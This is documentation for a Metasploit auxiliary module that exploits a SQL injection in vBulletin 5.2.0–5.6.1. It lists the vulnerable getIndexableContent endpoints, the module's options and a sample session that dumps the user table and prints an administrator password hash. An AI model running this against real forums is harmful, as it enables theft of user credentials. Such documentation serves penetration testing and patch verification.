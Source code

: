 ## Vulnerable Application

  [vBulletin](https://www.vbulletin.com) A popular PHP bulletin board and blog web application.
  This module has been tested successfully against vBulletin 5.6.1 running on Ubuntu Linux 19.04

### Description

This module exploits a SQL injection vulnerability present in vBulletin 5.2.0 through 5.6.1 in the
`getIndexableContent` function. This vulnerability is triggered through the `nodeId` variable and
can be reached through multiple paths (listed below) but is exploited in this module utilizing the
`/ajax/api/content_infraction/getIndexableContent` path.

- /ajax/api/content_video/getIndexableContent
- /ajax/api/content_text/getIndexableContent
- /ajax/api/content_report/getIndexableContent
- /ajax/api/content_redirect/getIndexableContent
- /ajax/api/content_privatemessage/getIndexableContent
- /ajax/api/content_poll/getIndexableContent
- /ajax/api/content_photo/getIndexableContent
- /ajax/api/content_link/getIndexableContent
- /ajax/api/content_infraction/getIndexableContent
- /ajax/api/content_gallery/getIndexableContent
- /ajax/api/content_event/getIndexableContent
- /ajax/api/content_channel/getIndexableContent
- /ajax/api/content_attach/getIndexableContent

Each path listed above reaches the `getIndexableContent` function within the `/core/vb/library/content.php`
file. The SQL injection attack used utilizes a UNION query in order to leak data back in the response
`rawtext` field. The data stored on the file system contains the entire `user` table or a dump of all the
vBulletin tables in json format.

## Verification Steps

1. Do: ```use auxiliary/gather/vbulletin_getindexablecontent_sqli```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set VHOST [HOSTNAME]```
4. Do: ```set TARGETURI [PATH]```
5. Do: ```run```

## Options

### DUMPALL

A boolean value used to determine if the module should dump the `user` table (false), or (true) to dump all
tables with the vBulletin table prefix.

### NODE

A valid node id value for the vBulletin install. When provided, this value is used instead of that acquired
by brute-forcing

### MINNODE

A minimum nodeid value to begin with when brute-forcing for a valid node id. **Default: 1**

### MAXNODE

A maximum nodeid value to end with when brute-forcing for a valid node id. **Default: 200**

### TARGETURI

The base URI path of vBulletin. **Default: /**

## Scenarios

```
msf5 auxiliary(gather/vbulletin_getindexablecontent_sqli) > set RHOSTS 192.168.1.100
RHOSTS => 192.168.1.100
msf5 auxiliary(gather/vbulletin_getindexablecontent_sqli) > set VHOST vb.local
VHOST => vb.local
msf5 auxiliary(gather/vbulletin_getindexablecontent_sqli) > set TARGETURI /
TARGETURI => /vb5
msf5 auxiliary(gather/vbulletin_getindexablecontent_sqli) > run

[*] Running module against 192.168.1.100
[*] Brute forcing to find a valid node id.
[+] Sucessfully found node at id 1
[*] Attempting to determine the vBulletin table prefix.
[+] Sucessfully retrieved table to get prefix from vb5_language.
[*] Getting table columns for vb5_user
[+] Retrieved 78 columns for vb5_user
[*] Dumping table vb5_user
[*] Table contains 1 rows, dumping (this may take a while).
[+] Found credential: administrator:$2y$15$I5t0BGBeYaYGbaRhhBr8g.EBax846Jx3B6ady..nwuPxOWAYicYvi (Email: zenofex@exploitee.rs)
[+] Retrieved 1 rows for vb5_user
[+] Saved file to: /home/zenofex/.msf4/loot/20200522180431_default_192.168.1.100_vb5_user_305077.txt
[*] Auxiliary module execution completed

```

